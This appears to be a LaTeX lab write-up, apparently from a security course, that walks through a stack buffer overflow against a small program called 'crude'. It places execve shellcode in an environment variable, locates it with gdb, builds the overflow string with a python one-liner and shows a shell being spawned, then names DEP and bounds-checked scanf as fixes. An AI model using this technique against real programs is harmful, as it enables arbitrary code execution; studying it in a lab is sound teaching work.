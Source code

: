 \documentclass[]{article}
\begin{document}
\begin{enumerate}
	\item In order to put the shellcode in an environment variable, one can simply export it like so:\\
	
		\texttt{export CODE=`python -c "'<shellcode>'"`}\\ 

	This will put the shellcode in a variable called CODE. In order to find the address required, one can simply print the stack in gdb like so: \texttt{x/500s \$esp}. If you put a break point in main, you will definitely get the environment to print in the first 500 words. It looks something like this.
	\\
	\\
	 \texttt{...\\
	 	0xbfffff7f:	 "LESSOPEN=| /usr/bin/lesspipe \%s"\\
	 	0xbfffff9f:	 "CODE=1\300Ph//shh/bin\343PS҃[\350P̀"\\
	 	0xbfffffc2:	 "LESSCLOSE=/usr/bin/lesspipe \%s \%s"\\
	 	0xbfffffe4:	 "/home/ccsep/CRUDE/crude"\\
	 	0xbffffffc:	 ""\\
	 	0xbffffffd:	 ""\\
	 	...}
	\\
	\item We then need to add enough to the address printed, in order to skip the name and "=" sign. In this case we add 5 to 0xbfffff9f, giving 0xbfffffa4.\\
	Once we have the required addresses, we can construct the exploit string like so: Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{PSFP}, \textcolor{orange}{new return address}.\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{17 * 'a'} + \textcolor{red}{'{\textbackslash}xd8{\textbackslash}xf6{\textbackslash}xff{\textbackslash}xbf'} +\\ \textcolor{orange}{'{\textbackslash}xa4{\textbackslash}xff{\textbackslash}xff{\textbackslash}xbf'}" $>$ stack2.txt}
	\\
	\item Lets test it with the fifo pipe and \texttt{ls}.\\\\
	\texttt{process 2121 is executing new program: /bin/dash\\
	LICENSE  Makefile  README.md  crude  doc  resources  sin  src  test.csv}
	\\\\
	Success again!
	\\
	Like the previous part, DEP and a bounds checked scanf will fix the problem.
\end{enumerate}
\end{document}
